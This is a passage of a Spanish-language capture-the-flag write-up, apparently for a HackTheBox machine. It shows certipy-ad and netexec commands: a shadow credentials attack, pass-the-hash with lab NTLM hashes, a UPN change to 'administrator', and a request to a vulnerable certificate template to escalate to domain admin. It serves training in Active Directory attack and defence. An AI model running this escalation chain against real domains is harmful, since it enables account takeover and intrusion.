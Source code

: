 Una vez obtenido del hash del usuario "ca\_operator@certified.htb" procederemos a validar el hash NTLM obtenido.

{% code overflow="wrap" %}
```bash
certipy-ad shadow auto -username MANAGEMENT_SVC@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -account CA_OPERATOR

netexec smb 10.10.11.41 -u 'CA_OPERATOR' -H '613a519b5b0ef57c07bc6395aa1aff14'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/2496_vmware_E0ErQf2bB9.png" alt=""><figcaption></figcaption></figure>

Utilizamos Certipy para actualizar el UPN de la cuenta **CA\_OPERATOR**, asignándole el valor de **Administrator**. Esto nos permite asociar cualquier certificado emitido a **CA\_OPERATOR** con la identidad de **Administrator**:

{% code overflow="wrap" %}
```bash
certipy-ad account update -username MANAGEMENT_SVC@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user CA_OPERATOR -upn administrator
```
{% endcode %}

<figure><img src="../../.gitbook/assets/2497_vmware_gZCnQVgrUF.png" alt=""><figcaption></figcaption></figure>

Solicitamos un certificado utilizando la plantilla vulnerable **CertifiedAuthentication**. Este certificado se emitió con el UPN de **Administrator**, habilitando su uso para autenticación con privilegios elevados:

{% code overflow="wrap" %}
```bash
certipy-ad req -username CA_OPERATOR@certified.htb -hashes 613a519b5b0ef57c07bc6395aa1aff14 -dc-ip 10.10.11.41 -ca certified-DC01-CA -template CertifiedAuthentication
```
{% endcode %}
